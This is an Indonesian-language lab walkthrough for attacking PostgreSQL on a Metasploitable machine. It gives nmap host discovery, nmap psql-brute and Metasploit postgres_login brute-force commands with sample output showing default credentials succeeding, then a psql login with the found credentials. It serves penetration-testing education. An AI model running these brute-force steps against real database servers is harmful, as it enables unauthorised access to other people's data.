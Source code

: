 # Introduction

**PostgreSQL**, sering disingkat Postgres, adalah sebuah sistem manajemen basis data relasional objek (_Object-Relational Database Management System_ atau ORDBMS) yang bersifat sumber terbuka. Dikenal karena keandalannya, fitur-fiturnya yang canggih, dan kepatuhannya terhadap standar SQL, PostgreSQL sering dianggap sebagai salah satu basis data open-source paling maju di dunia.

Beberapa **kerentanan** yang bisa dieksploitasi:
- Kredensial login lemah
- Eksekusi kode melalui payload
- Hak akses pengguna
- Peningkatan hak akses (_privilege escalation_)

**1. _Reconnaissence_**

- Analisis jaringan yang sedang dipakai untuk mengetahui IP yang digunakan

```
ifconfig
```
- Memindai seluruh jaringan internal yang saling terhubung untuk mencari target
```
nmap -sn <ip_range>

Ex. nmap -sn 192.168.1.0/24   //scanning the whole connected divices
```
**2. _Scanning and Enumeration_**

- Memindai port postgresql 5432 pada IP target
```
nmap -p 5432 --script=psql-brute <ip_metasploitable>
```
Fungsi dari skrip `psql-brute` di Nmap adalah untuk melakukan serangan brute-force terhadap kredensial login pada server basis data PostgreSQL. Bisa juga menambahkan `--script-args userdb=users.txt,passdb=pass.txt` jika ingin menggunakan _wordlist_ tertentu.
- Alternatif lain jika nmap tidak menemukan username dan password (metasploit framework)
```
msfconsole
```
```
search postgresql	
```
```
use auxiliary/scanner/postgres/postgres_login
set RHOSTS <ip_metasploitable>
set LHOST <ip_kali_linux>
exploit	
```
```
[-] 192.168.175.90:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[+] 192.168.175.90:5432 - Login Successful: postgres:postgres@template1	//username:password@databasebawaan

[*] Scanned 1 of 1 hosts (100% complete)
[*] Bruteforce completed, 1 credential was successful.
[*] You can open a Postgres session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed
```
- Mencoba login postgres menggunakan kredensial yang ditemukan
Kali Linux:  
```
psql -h [IP_target] -U [username] -d [database]
```
`-h` : Host/IP	`-U` : nama user	`-d` : nama database

